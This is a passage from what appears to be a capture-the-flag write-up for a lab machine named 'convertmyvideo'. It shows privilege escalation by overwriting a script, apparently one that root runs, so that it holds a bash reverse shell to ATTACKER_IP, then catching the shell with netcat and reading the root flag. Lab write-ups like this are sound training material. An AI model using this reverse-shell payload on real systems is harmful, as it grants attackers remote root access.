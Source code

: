 ```
echo 'bash -i >& /dev/tcp/ATTACKER_IP/5555 0>&1' > clean.sh
```

Now set up a netcat listener, sit back and wait.

![screenshot21](../assets/images/convertmyvideo/screenshot21.png)

We're now root!

The **root flag** can be found in /root:

![screenshot22](../assets/images/convertmyvideo/screenshot22.png)
